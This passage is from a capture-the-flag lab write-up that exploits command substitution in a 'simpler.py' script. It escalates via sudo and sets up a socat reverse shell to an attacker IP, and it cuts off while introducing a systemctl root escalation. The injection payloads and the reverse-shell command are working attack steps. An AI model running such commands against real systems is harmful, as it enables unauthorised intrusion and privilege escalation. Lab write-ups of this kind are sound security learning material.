 Looks like command substitution can be exploited here since the shell execution characters &#8220;$()&#8221; aren&#8217;t filtered!

I tried to get a shell to work through simpler.py and failed, many times. So to at least get somewhere, I extracted the user.txt with these commands:

`sudo -u pepper ./simpler.py -p`  To get into the script, then `$(cat /home/pepper/user.txt >test.txt)` inside of the script.

To exploit systemctl for the root flag, I had to get a shell working through the simpler.py script.

After trying MANY things, I finally got it to work with a SOCAT shell using the following steps.

1) Set up SOCAT on my kali box with:

`socat file:`tty`,raw,echo=0 TCP-listen:5555`

2) After dropping into a shell from meterpreter:

`sudo -u pepper /var/www/Admin-Utilities/simpler.py -p`

3) From within simpler.py:

`$(bash)`

This allowed me to bypass the filtered characters since I need some of them. This bash shell will only allow a single command due to limitations in the injection vuln.

Then set up a socat connection with `socat exec:’bash -li’,pty,stderr,setsid,sigint,sane tcp:10.10.15.29:5555`

<img class="alignnone size-full wp-image-182" src="/assets/img/2019/08/js_simpler_socat.png" /> 

### Root Escalation

Tried to use the &#8216;systemctl&#8217; command for the next escalation. My first plan was to see if a shell breakout from &#8216;less&#8217; through &#8216;systemctl status&#8217; would give me root permissions.

But I got an error that the shell isn&#8217;t good enough:

<img class="alignnone size-full wp-image-184" src="/assets/img/2019/08/js_systemctl_status.png" /> 

&#8230; and when I broke out of &#8216;less&#8217;, it didn&#8217;t give root permissions as I had hoped.

I did some research on what &#8216;systemctl&#8217; is used for and figured I could create my own service, which does certainly run as root and use it to spawn a shell to use.

Here&#8217;s a very simple service setup that I used:
